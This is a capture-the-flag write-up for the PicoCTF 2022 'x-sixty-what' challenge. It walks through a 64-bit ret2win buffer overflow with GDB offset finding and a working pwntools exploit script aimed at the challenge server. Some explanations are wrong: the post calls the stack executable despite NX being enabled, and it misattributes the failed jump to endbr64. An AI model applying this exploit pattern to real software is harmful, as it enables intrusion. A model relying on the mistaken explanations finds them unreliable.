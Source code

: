 ```yaml
---
layout: single
title:  "PicoCTF 2022 - x-sixty-what"
categories: 
  - PicoCTF
  - Binary Exploitation
tags:
  - ctf
  - picoctf
toc: true
toc_label: "Contents"
toc_icon: "list"  # corresponding Font Awesome icon name (without fa prefix)
excerpt: "Another ret2win challenge. Interestingly, this deals with 64-bit binaries instead of 32-bit."
---
```


## My Solution
Let's take a look at the `vuln` binary. Using `file` and `checksec`, we observe the following:
```bash
$ file vuln
>> vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, 
BuildID[sha1]=8ba2226f06946bc75922ba6fb1919e6283162f22, for GNU/Linux 3.2.0, not stripped

$ checksec vuln                                                                     
[*] '.../vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
From this, we can observe that the file:
- is a 64-bit ELF file,
- is not stripped,
- has no PIE, and
- has very little protection in place (stack is executable, no stack canary).

Now, looking at `vuln.c`, we can note down some interesting features.
```c
...
#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```
We can see that the provided file has a read buffer size of 64, and has a `flag()` function present. Like most binary exploitation challenges, the vulnerable `gets()` function is used here to retrieve user input. 

It appears that nothing is out of the ordinary here. We just need to note that this is a 64-bit binary, and we need to return to the `flag()` function to get our flag.

Now, let's use GDB to find the function addresses, and to determine the offset to RIP (not EIP, as this is a 64-bit binary).
```bash
$ gdb vuln
>> ...
gef➤ info functions
...
0x0000000000401236  flag
0x00000000004012b2  vuln
0x00000000004012d2  main
...
```
We observe that the address of `flag()` is `0x0000000000401236`.
```bash
gef➤ pattern create 150
[+] Generating a pattern of 150 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaa
[+] Saved as '$_gef0'
gef➤  r
Starting program: .../vuln
Welcome to 64-bit. Give me a string that gets you the flag:
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x00000000004012d1 in vuln ()
```
As expected, we receive a segmentation fault. To determine where our RIP offset is, let's look at the stack.
```bash
0x00007fffffffd658│+0x0000: "jaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapa[...]"    ← $rsp
0x00007fffffffd660│+0x0008: "kaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqa[...]"
...
```
Notice that the pattern "jaaaaaaaka..." is found at the top of the stack. If this value was a valid memory address, then it should be popped from the stack and passed to RIP. Therefore, the offset to RIP will also be the offset to RSP, as RSP points to this pattern.
```bash
pattern offset $rsp
[+] Searching for '6a61616161616161'/'616161616161616a' with period=8
[+] Found at offset 72 (little-endian search) likely
```
Thus, we have determined our offset to be 72 bytes. Additionally, we notice something interesting in the debugger. It appeared that the RIP doesn't get clobbered in this case, which is unlike what we've seen in 32-bit binaries.
```bash
$rip   : 0x00000000004012d1  →  <vuln+31> ret
```
Normally, we would've expected to see a bunch of 61s here. The reason for this is due to **canonical addressing** in x64 systems. Simply put, canonical addresses fall within a specific address size range. Addresses outside of this size range would be considered non-canonical, and will never be pushed into RIP. In this case, the maximum address size is 48 bits in length (or, 6 bytes). For us to control RIP, we will need to mask off the 2 most significant bytes from the 8 byte memory address of our `flag()` function.

To check this, let's generate a pattern of 78 bytes in length, and observe if RIP was clobbered.
```bash
gef➤  pattern create 78
[+] Generating a pattern of 78 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaa
[+] Saved as '$_gef5'
gef➤  r
Starting program: .../vuln
Welcome to 64-bit. Give me a string that gets you the flag:
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x000061616161616a in ?? ()
...
$rip   : 0x61616161616a
```
Indeed, our RIP was clobbered with exactly 6 bytes of data.

We can now proceed to solve this challenge. Using Python 3 and pwntools:
```python
# solve.py

from pwn import *
# elf = ELF('./vuln') # for local execution
# p = process(elf.path) # for local execution
p = remote('saturn.picoctf.net', 49395) # for remote execution

# payload buffer
payload = b'A' * 72 # RIP offset
payload += p64(0x401236) # 0x0000000000401236

print(p.recvuntil(':'))
p.sendline(payload)
p.interactive()
```
However, in spite of the correct approach taken, this solution did not work, as I unexpectedly received a segmentation fault. If we refer to the challenge page on PicoCTF, we notice that this disclaimer was provided:
`Reminder: local exploits may not always work the same way remotely due to differences between machines.`

It appeared that entering the exact address of `flag()` does not work on all machines (explanation below!). To solve this challenge, I had to enter the address of a move instruction within the function instead.
`0x000000000040123b <+5>:     mov    rbp,rsp`

Making modifications to the Python script, we can now get the flag.
```python
...
payload = b'A' * 72 # RIP offset
payload += p64(0x40123b)
...
```
```bash
[+] Opening connection to saturn.picoctf.net on port 49395: Done
solve.py:10: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(p.recvuntil(':'))
b'Welcome to 64-bit. Give me a string that gets you the flag:'
[*] Switching to interactive mode

picoCTF{b1663r_15_b3773r_3e77a3f1}[*] Got EOF while reading in interactive
$
[*] Closed connection to saturn.picoctf.net port 49395
```

## Learning Takeaways
### Why did the program fail to call `flag()` when we loaded the address of flag into the payload?
Let's disassemble `flag()`.
```bash
gef➤  disas flag
Dump of assembler code for function flag:
0x0000000000401236 <+0>:     endbr64
0x000000000040123a <+4>:     push   rbp
0x000000000040123b <+5>:     mov    rbp,rsp
0x000000000040123e <+8>:     sub    rsp,0x50
...
```
We notice that the function address points to a `endbr64` instruction. After doing some brief research, it seems that this is a form of ROP protection on Intel-based chips. In short, the presence of this instruction prevents attackers (like us) from directly manipulating return addresses of functions on the call stack, thus preventing us from calling `flag()`. 

To bypass this, we made the program jump to an instruction within `flag()` instead. There was some trial and error involved, but it seemed like jumping to the move instruction was the right approach.

Generally, we've learnt that x64 systems behave differently from x32. For instance, 32-bit systems can read off the stack directly, while 64-bit systems refer to registers on the stack, which makes manipulation of the call stack a bit more challenging. There's also the concept of canonical addresses which was mentioned above.

## References
- [John Hammond (YouTube): x64 ret2win - LINUX Buffer Overflow (PicoCTF 2022 #41 'x-sixty-what')](https://www.youtube.com/watch?v=eg0gULifHFI&list=PL1H1sBF1VAKUbRWMCzEBi61Z_7um7V5Sd&index=42)
- [64-bit Stack-based Buffer Overflow](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/64-bit-stack-based-buffer-overflow)
- [Exploiting Calling Conventions](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/exploiting-calling-conventions)
